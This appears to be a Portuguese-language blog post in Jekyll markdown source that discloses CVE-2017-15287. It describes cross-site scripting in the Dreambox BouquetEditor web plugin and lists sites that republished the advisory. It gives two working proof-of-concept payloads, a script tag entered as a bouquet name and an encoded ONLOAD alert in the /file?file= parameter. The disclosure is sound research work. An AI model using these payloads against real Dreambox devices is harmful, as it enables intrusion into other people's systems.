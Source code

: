 ```yaml
---
title: "[CVE-2017-15287] Vulnerability XSS - Dreambox"
date: 2017-10-13 04:45:59 Z
categories:
- cve
layout: post
description: 'Vulnerabilty: Cross-site scripting (XSS) in plugin BouquetEditor'
---
```


Prova de Conceito (Proof of Concept - PoC), que virou o [CVE-2017-15287](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-15287){:target="_blank" rel="noopenner noreferrer"} por Thiago "THX".

### Sobre o Software:

O Dreambox é um produto da Dream-Multimedia-TV (DMM), que é desenvolvido por receptores baseados em Linux sob o nome Dreambox.

### As vulnerabilidades:

#### Vulnerabilidade 1

O XSS está presente em duas áreas, sendo que na primeira área a vulnerabilidade se encontra em um WebPlugin chamado "BouquetEditor":

```
URL: http://IP:PORT/bouqueteditor/
```

Passos:

1. Na aba Bouquets, ira adicionar uma nova bouquet

![Passo 1]({{ site.url }}/images/posts/1.png)

2. Assim, irar colocar o script:

```
(<script>alert('XSS')</script>)
```

![Passo 2]({{ site.url }}/images/posts/2.png)

3. Vulnerability XSS

![Passo 3]({{ site.url }}/images/posts/3.png)

#### Vulnerabilidade 2

A segunda falha consiste em colocar a variavel abaixo depois da url (http://IP:PORT)

```
Variavel :/file?file=%3CBODY%20ONLOAD=alert(%27XSS%27)%3E
```

![XSS via endereço]({{ site.url }}/images/posts/4.png)

### Compartilhamentos:

Sites que já compatilharam o CVE:

[0day](https://fr.0day.today/exploit/description/28784){:target="_blank" rel="noopenner noreferrer"}

[CERTSI](https://www.certsi.es/alerta-temprana/vulnerabilidades/cve-2017-15287){:target="_blank" rel="noopenner noreferrer"}

[CXSecurity](https://cxsecurity.com/issue/WLB-2017100103){:target="_blank" rel="noopenner noreferrer"}

[Exploit Database](https://www.exploit-db.com/exploits/42986/){:target="_blank" rel="noopenner noreferrer"}

[Exploit Kitploit](http://exploit.kitploit.com/2017/10/dreambox-plugin-bouqueteditor-cross.html){:target="_blank" rel="noopenner noreferrer"}

[HackerTor](https://hackertor.com/2017/10/12/na-cve-2017-15287-there-is-xss-in-the-bouqueteditor-webplugin-for/){:target="_blank" rel="noopenner noreferrer"}

[NVD](https://nvd.nist.gov/vuln/detail/CVE-2017-15287){:target="_blank" rel="noopenner noreferrer"}

[PacketStorm](https://packetstormsecurity.com/files/144604/dreambox200be-xss.txt){:target="_blank" rel="noopenner noreferrer"}

[Security Database](https://www.security-database.com/detail.php?alert=CVE-2017-15287&utm_source=feedburner&utm_medium=feed&utm_campaign=Feed:+Last100Alerts+(Security-Database+Alerts+Monitor+:+Last+100+Alerts)){:target="_blank" rel="noopenner noreferrer"}

[SecNews24](https://www.secnews24.com/2017/10/12/cve-2017-15287-there-is-xss-in-the-bouqueteditor-webplugin-for-dream-multimedia-dreambox-devices-as-demo/){:target="_blank" rel="noopenner noreferrer"}

[TSecurity](https://tsecurity.de/de/215878/Reversing-Engineering/Exploits/Dream-Multimedia-Dreambox-/file-Cross-Site-Scripting/){:target="_blank" rel="noopenner noreferrer"}

[VulDB](https://vuldb.com/fr/?id.107825){:target="_blank" rel="noopenner noreferrer"}
